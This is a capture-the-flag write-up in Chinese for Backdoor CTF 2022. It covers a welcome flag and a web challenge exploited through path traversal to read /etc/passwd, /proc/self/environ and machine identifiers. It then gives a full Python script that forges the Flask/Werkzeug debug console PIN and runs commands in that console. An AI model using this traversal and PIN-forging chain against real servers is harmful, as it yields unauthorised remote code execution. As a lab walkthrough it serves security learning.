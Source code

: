 # Backdoor CTF
###### tags: `CTF`

## Misc
### Welcome
![](https://i.imgur.com/s7NhI6j.png)

discord -> 搜尋 flag ->

![](https://i.imgur.com/s95KgRT.png)

flag{w3lc0m3_70_b4ckd00r_2022}

## Web
### (X) Hack the planet

以下參考別人的解法

一進入首頁，發現什麼東西都沒有

![](https://i.imgur.com/Bq8Lf8Z.png =500x)

從標題的 Konsole 推測是跟 Flask 的 debug mode console 有關，發現確實有 `/console` 的 endpoint，需要 pin

![](https://i.imgur.com/alq3Fec.png =500x)

因此，需要有一個讀檔漏洞幫我們取得必要的資訊

透過通靈出一個 `/admin` 路徑，發現有 `/article` 路徑可以使用

![](https://i.imgur.com/ma99cYc.png)

照著指示發現有 No such file or directory 的錯誤，這邊應該有進行讀檔操作

![](https://i.imgur.com/HqCEGMl.png =500x)

發現 name 參數就是讀檔案的路徑，且有 path traversal 漏洞，嘗試讀取 `/etc/passwd` 成功

```
?name=../../../../etc/passwd
```

![](https://i.imgur.com/czOHkO9.png)

參考 [這篇](https://zhuanlan.zhihu.com/p/549307995) 以及 [這篇](https://inhann.top/2021/02/25/flask_newer/#pin-rce) 文章，發現需要一些參數協助計算 pin

在 username 部分，使用讀取 `/proc/self/environ` 看 home 路徑，發現是 `r00t-user`

```
name=../../../../proc/self/environ
```

![](https://i.imgur.com/iW06eZq.png)

另外也得知 python 版本為 3.9

modname, appname 在原程式碼中看不到有設定的指令，推測是使用預設的 `flask.app` 和 `Flask`

moddir 根據上面的 python 版本，得出為 `/usr/local/lib/python3.9/site-packages/flask/app.py`

uuidnode 讀取 `/sys/class/net/eth0/address`，得出為 `02:42:ac:11:00:03`，當然後面要轉成 10 進位數

![](https://i.imgur.com/8vJNABz.png)

machine_id 的部分比較複雜，需要讀取 2 (docker 環境) 或 3 (非 docker 環境) 個檔案，在此題中可得知是在 docker 環境中，所以需要讀取 `/proc/sys/kernel/random/boot_id` 和 `/proc/self/cgroup` 的內容並拼接

`boot_id`: `d5a09294-c0e7-4cf9-a10b-4cdb79f8620c`

![](https://i.imgur.com/MnvjAor.png)

`cgroup`: `590c806c6d83846eed0e2eb62c5940bd3c34b2d70dc4bf5ff54766addfd69741`

![](https://i.imgur.com/KpQxUxe.png)

因此可透過這些資訊計算出 flask console pin，以下是計算的程式

:::spoiler solve.py
```python=
import hashlib
from itertools import chain
from Crypto.Util.number import bytes_to_long

private_bits = [str(bytes_to_long(bytes.fromhex("02:42:ac:11:00:03".replace(":", "")))),'d5a09294-c0e7-4cf9-a10b-4cdb79f8620c'+"590c806c6d83846eed0e2eb62c5940bd3c34b2d70dc4bf5ff54766addfd69741"]
probably_public_bits = ['r00t-user','flask.app','Flask','/usr/local/lib/python3.9/site-packages/flask/app.py']


h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)


h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv, cookie_name)
```
:::

![](https://i.imgur.com/EJdUBLz.png)

計算結果為 `823-272-760`，輸入後也成功獲得 console 操作權限

接著就是找 flag 時間，使用 grep 搜尋後，找到 flag

```python!
print(subprocess.run(["grep", "-r", "flag{", "/usr"], capture_output=True).stdout.decode())
```

![](https://i.imgur.com/Owrs8Hb.png)

flag{wh0_g4v3_y0u_my_fl4sk_p1n_23dde36g}